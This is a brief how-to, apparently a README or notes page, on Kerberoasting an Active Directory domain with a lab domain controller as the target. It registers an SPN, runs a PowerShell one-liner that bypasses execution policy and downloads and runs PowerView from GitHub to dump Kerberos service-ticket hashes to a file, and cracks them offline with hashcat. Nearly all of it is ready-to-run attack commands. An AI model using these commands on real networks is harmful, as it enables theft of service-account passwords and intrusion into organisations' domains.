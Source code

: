 How to perform Kerberoasting.

Register SPN 
--------------
    setspn -s http/dc.lab:80 <user_name>

Perform Kerberosting using Powerview Powershell script
--------------------------------------------------------
  
    powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash.txt"


Crack the hash
---------------

    hashcat64.exe -m 13100 kerb-Hash.txt dictionary_file.txt
